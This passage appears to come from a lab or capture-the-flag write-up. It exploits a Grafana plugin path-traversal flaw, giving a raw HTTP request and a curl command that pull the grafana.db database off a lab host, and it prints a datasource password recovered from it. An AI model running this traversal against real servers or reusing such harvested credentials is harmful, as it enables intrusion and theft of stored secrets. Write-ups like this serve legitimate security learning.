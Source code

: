 ```js
GET /public/plugins/nodeGraph/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: 127.0.0.1:9050
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.
Connection: close
```

Download `/var/lib/grafana/grafana.db`

```bash
curl --path-as-is "http://10.10.11.183:3000/public/plugins/nodeGraph/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -o grafana.db
```

- `--path-as-is` :Do not squash .. sequences in URL path 

Use Sqlite Explorer

![](/assets/obsidian/eff36a9e39568b45fbbbf7488b9638fe.png)


### Got creds:


#### Datasource Table

`grafana`:`dontStandSoCloseToMe63221!`


#### User Table
